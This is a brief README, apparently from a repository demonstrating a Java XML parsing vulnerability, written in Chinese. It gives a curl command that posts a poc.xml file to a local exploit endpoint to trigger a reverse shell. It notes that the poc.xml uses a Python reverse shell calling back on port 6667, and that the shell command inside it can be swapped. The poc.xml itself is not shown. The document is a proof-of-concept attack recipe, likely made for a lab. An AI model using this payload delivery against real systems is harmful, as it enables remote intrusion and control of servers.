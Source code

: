 # Java XML 解析漏洞
- 反弹shell payload: ` curl -X POST -H "Content-Type: application/xml" --data @poc.xml http://localhost:8080/exploitXml_war_exploded/exploit`
- 可以在`poc.xml`里面进行修改`反弹shell`的命令，本次`poc.xml`使用的是`python的反弹shell`
- 反弹端口为`6667`